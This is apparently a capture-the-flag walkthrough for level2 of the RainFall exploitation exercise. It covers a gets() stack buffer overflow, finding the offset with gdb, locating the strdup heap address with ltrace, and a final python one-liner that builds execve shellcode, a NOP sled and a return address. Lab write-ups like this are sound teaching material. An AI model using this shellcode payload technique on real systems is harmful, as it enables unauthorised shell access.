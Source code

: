 First we start by open the file in dogblot. We can see that it use the `gets` function which is vulnerable to overflow attacks.

Here we see that we have to get a shellcode to launch a shell. We can use shell-storm :
https://shell-storm.org/shellcode/index.html

Here we do the same thing that the previous level with the pattern:
aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz

```
(gdb) r
Starting program: /home/user/level2/level2 
aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz
aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppuuuurrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz

Program received signal SIGSEGV, Segmentation fault.
0x75757575 in ?? ()
(gdb) x/s $esp
0xbffff720:      "vvvvwwwwxxxxyyyyzzzz"
```

Now to find the return address we will use ltrace on the file:
```
level2@RainFall:~$ ltrace ./level2
__libc_start_main(0x804853f, 1, 0xbffff7f4, 0x8048550, 0x80485c0 <unfinished ...>
fflush(0xb7fd1a20)                                                                                                                                 = 0
gets(0xbffff6fc, 0, 0, 0xb7e5ec73, 0x80482b5
)                                                                                                      = 0xbffff6fc
puts(""
)                                                                                                                                           = 1
strdup("")                                                                                                                                         = 0x0804a008
+++ exited (status 8) +++
```
Here we can see that the strdup use the address 0x0804a008 (address from the buffer)
When transform in little endian and hex: \x08\xa0\x04\x08

26-5=21
21*4=84
84-size(shellcode) : 84 - 21= 63
63-size(address) : 63 - 4 = 59

So now we know that our exploit will be compose by :
[21 char of shellcode][a 59 nop sled][4 bytes address]

python -c 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "\x90" * 59 + "\x08\xa0\x04\x08"' > /tmp/test3
